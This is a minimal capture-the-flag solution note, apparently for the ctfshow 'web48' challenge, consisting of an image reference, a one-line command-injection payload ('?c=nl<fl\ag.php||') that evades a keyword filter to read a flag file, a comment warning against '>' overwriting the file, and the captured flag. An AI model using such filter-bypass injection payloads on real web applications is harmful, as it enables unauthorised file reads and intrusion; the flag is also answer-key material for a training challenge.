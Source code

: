 # web48
![](vx_images/49028387110015.png)
```
?c=nl<fl\ag.php||//切勿用>,会重写文件
```
ctfshow{c022a877-521c-4aa5-b6ad-e300a6527592}